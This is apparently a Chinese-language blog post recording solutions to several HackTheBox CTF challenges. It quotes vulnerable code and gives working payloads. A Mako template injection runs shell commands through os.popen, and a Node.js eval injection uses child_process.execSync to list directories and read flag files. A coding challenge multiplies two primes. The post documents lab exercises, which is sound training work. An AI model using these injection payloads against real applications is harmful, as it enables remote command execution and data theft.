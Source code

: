```yaml
---
title: "HTB-CTF Challenge做题记录"
description: "HackTheBox CTF Challenge做题记录，涵盖WEB、MOBILE、CRYPTO、REVERSE等多个安全方向的深入分析与解题思路分享。"
date: "2025-08-30"
tags:
  - "HTB"
  - "CTF"
  - "WEB"
  - "Coding"
  - "MOBILE"
  - "CRYPTO"
  - "REVERSE"
authors:
  - "bx"
draft: false              # 设为 true 则为草稿
slug: "htb-challenge"          # 随机URL字符串
---
```

<meta name="referrer" content="no-referrer">


# HTB-CTF-记录

## WEB

### Spookifier 间谍工具

> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?
> 最近出现了一种能为你生成恐怖名字的应用。该应用的用户后来发现他们的真实姓名也被神奇地更改了，导致生活陷入混乱。你能帮忙让这个应用下线吗？

直接定位到漏洞点

```python
from mako.template import Template


def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        
		<tr>
        	<td>{2}</td>
        </tr>
        
		<tr>
        	<td>{3}</td>
        </tr>

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
	add_font_to_list(text_list, 'font2')
	add_font_to_list(text_list, 'font3')
	add_font_to_list(text_list, 'font4')

	return all_fonts

def spookify(text):
	converted_fonts = change_font(text_list=text)

	return generate_render(converted_fonts=converted_fonts)

```

直接渲染了，并且是Mako引擎

```
${7*7}
```

![image-20250831121956207](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831121958413.png)

```
${__import__('os').popen('ls').read()}
${__import__('os').popen('cat /fla*').read()}
```

得到flag


### **Trapped Source  被困的源头**

> Intergalactic Ministry of Spies tested Pandora's movement and intelligence abilities. She found herself locked in a room with no apparent means of escape. Her task was to unlock the door and make her way out. Can you help her in opening the door?  
> 星际间谍部测试了潘多拉的移动和智力能力。她发现自己被困在一个没有明显逃生方法的房间里。她的任务是解锁门并走出去。你能帮她打开门吗？

进入查看 js 代码，发现对应正确密码

```nginx
	<script>
		window.CONFIG = window.CONFIG || {
			buildNumber: "v20190816",
			debug: false,
			modelName: "Valencia",
			correctPin: "5417",
		}
	</script>
```

输入获得 flag





### **Breathtaking View  令人惊叹的景色**

> Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!  
> 查看我的新网站，展示令人惊叹的景色——希望没有人能“操控”它！

一道 SSJI 的题目



一个计算器界面

代码审计

```javascript
const path       = require('path');
const express    = require('express');
const router     = express.Router();
const Calculator = require('../helpers/calculatorHelper');

const response = data => ({ message: data });

router.get('/', (req, res) => {
  return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
  let { formula } = req.body;

  if (formula) {
    result = Calculator.calculate(formula);
    return res.send(response(result));
  }

  return res.send(response('Missing parameters'));
})

module.exports = router;

// ocd
```

看一下这个calculate 函数

```javascript
module.exports = {
    calculate(formula) {
        try {
            return eval(`(function() { return ${ formula } ;}())`);

        } catch (e) {
            if (e instanceof SyntaxError) {
                return 'Something went wrong!';
            }
        }
    }
}


// ocd
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994516843-e66d27d4-3c6b-46a2-bcb0-e67e5fc2c7d4.png)

可以执行 js 代码

构造如下，列出当前目录

```html
process.platform

require('child_process').execSync('ls').toString()
```

尝试获取 flag

```javascript
require('child_process').execSync('cat /flag.txt').toString()
```

![](https://cdn.nlark.com/yuque/0/2025/png/42994824/1756994999793-95b26fcb-b440-4ec3-a3f7-ec6105aac467.png)

得到 flag




## Coding

### Primed for Action 

> Intelligence units have intercepted a list of numbers. They seem to be used in a peculiar way: the adversary seems to be sending a list of numbers, most of which are garbage, but two of which are prime. These 2 prime numbers appear to form a key, which is obtained by multiplying the two. Your answer is the product of the two prime numbers. Find the key and help us solve the case.
> 情报单位截获了一份数字列表。它们似乎以一种特殊的方式使用：对手似乎在发送一份数字列表，其中大部分是垃圾数据，但有两项是质数。这两个质数似乎组成了一把密钥，通过将这两个数相乘获得。你的答案是这两个质数的乘积。找到密钥并帮助我们破解案件。

就是写一个算法

```python
# take in the number
n = input()

nums = list(map(int, n.split()))

def is_prime(x: int) -> bool:
    if x < 2:
        return False
    if x % 2 == 0:
        return x == 2
    i = 3
    while i * i <= x:
        if x % i == 0:
            return False
        i += 2
    return True

# 找两个质数
primes = [x for x in nums if is_prime(x)]

# 计算乘积
ans = primes[0] * primes[1]

# print answer
print(ans)
```
![image-20250831120324987](https://raw.githubusercontent.com/bx33661/Picgo/main/20250831122737951.png)
